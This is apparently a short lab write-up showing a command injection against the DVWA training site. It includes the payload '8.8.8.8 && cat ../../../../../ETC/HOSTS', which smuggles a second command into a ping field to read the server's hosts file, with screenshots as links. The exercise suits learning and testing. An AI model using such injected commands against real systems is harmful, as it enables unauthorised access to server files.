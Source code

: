 ## Exposing the injection vulnerability in the DVWA Website

* Using command: 8.8.8.8 && cat ../../../../../ETC/HOSTS

* As you can see, we are able to see the ETC/HOSTS file inside the DVWA Server

![pic](etchosts.PNG)

## Same command using the Linux Command Line

* 8.8.8.8 && cat ../../../../../ETC/HOSTS

![pic](etchosts1.PNG) 

**NOTE:** 

*   There are also 5 subdirectories

**Picture of the hosts file located in the etc directory**

![pic](pichosts.PNG)
  




